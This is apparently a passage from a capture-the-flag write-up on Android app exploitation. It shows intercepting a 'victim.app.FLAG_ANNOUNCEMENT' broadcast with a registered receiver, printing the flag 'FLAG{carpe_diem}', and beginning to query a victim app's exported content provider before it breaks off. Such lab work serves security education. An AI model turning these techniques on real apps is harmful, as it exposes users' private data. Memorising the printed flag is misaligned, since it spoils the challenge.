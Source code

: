   ```kotlin
  }
  ```
  - MainActivity.act is a dirty trick used to let it access the context to set the field on the view easily, definetely not needed
    ```kotlin
    // in MainActivity
    companion object {
        lateinit var act: MainActivity
    }
    ```
- finally to make it work we need to register the specified intent string on our custom receiver
  ```kotlin
  MyReceiver.log("main")
  val filter = IntentFilter()
  filter.addAction("victim.app.FLAG_ANNOUNCEMENT")
  val receiver = MyReceiver()
  registerReceiver(receiver, filter)
  act = this
  ```

### Flag
> `FLAG{carpe_diem}`

---

## 6 Joke provider
- we use a content provider, we need a permission: `<uses-permission android:name="READ_USER_DICTIONARY" />`
- we have some insights:
  - provider in victim manifest:
    ```xml
    <provider
          android:name=".MyProvider"
          android:authorities="com.example.victimapp.MyProvider"
          android:enabled="true"
          android:exported="true">
      </provider>
    ```
  - table structure:
    ```java
    String CREATE_TABLE =
        " CREATE TABLE joke" +
                " (id INTEGER PRIMARY KEY AUTOINCREMENT, " +
                " author TEXT NOT NULL, " +
                " joke TEXT NOT NULL);";
    ```
  - a brief piece of usage:
    ```java
    static final String PROVIDER_NAME = "com.example.victimapp.MyProvider";
    static final String TABLE_NAME = "joke";
    static final String URL = "content://" + PROVIDER_NAME + "/" + TABLE_NAME;
    static final int uriCode = 1;
